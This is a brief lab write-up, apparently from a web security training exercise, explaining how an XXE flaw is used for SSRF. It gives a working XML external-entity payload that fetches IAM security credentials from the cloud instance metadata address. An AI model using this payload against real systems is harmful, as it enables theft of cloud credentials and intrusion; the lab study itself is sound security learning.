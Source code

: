 ## Overview  
The lab has the other server called the lab server, we can use XXE on web app to interact the lab server. That is XXE perform SSRF.  
`<!DOCTYPE xxe [<!ENTITY abc SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>`  
![image](https://user-images.githubusercontent.com/22276823/127725267-fa447cd6-2c26-4957-8662-e36a2bb23259.png)  
